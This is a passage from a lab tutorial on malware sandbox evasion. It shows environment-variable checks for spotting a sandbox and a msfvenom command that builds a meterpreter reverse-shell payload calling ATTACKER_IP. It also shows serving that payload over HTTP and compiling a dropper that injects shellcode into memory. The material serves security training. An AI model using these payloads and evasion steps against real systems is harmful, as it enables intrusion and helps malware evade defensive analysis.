 These techniques can vary in difficulty; therefore, you should consider how much time and effort you want to spend building out these evasion methods. A simple method, such as checking the systems environment variables (this can be done with **echo %VARIABLE%** or to display all variables, use the **set** command) for an item like the LogonServer, LogonUserSid, or LogonDomain may be much easier than implementing a Windows API.

## Setting the Stage  

Now that you have a better understanding of what Sandbox Bypass method types exist, we will take it to the next step and implement some of the Sandbox Bypasses in the next task.

Before we move on to the next task, we're going to be starting with a basic dropper that retrieves shellcode from a Web Server (specifically from /index.raw) and injects it into memory, and executes the shellcode. It's important to note that all shellcode must be generated with MSFVenom in a raw format, and must be 64-bit, not 32-bit. It can be generated with the following command.

```shell-session
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```

The shellcode should then be hosted on the AttackBox via any HTTP Server. Python3's http.server module is highly portable and flexible and will serve as a good base for this task. In the real world, you may host your shellcode on your C2 server. For the purposes of the lab, we will be utilizing the Attackbox with no C2 server.

The code attached to this task has been tested and compiled using Visual Studio 2019 (or above). Download the dropper.cpp, and open it. It's important to note that there are several placeholder values on lines 16, 22, 24, 27, and 33 that you must update to make the code function properly. Once you have altered the values, compile the code for a 64-bit release.

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250523150129.png)

# Implementing Various Evasion Techniques

---

## Diving into Sandbox Evasion

With this base code acquired, we will take our first step into the world of Sandbox Evasion. We're going to start with our sleep because it is the simplest. 

## Taking a Nap
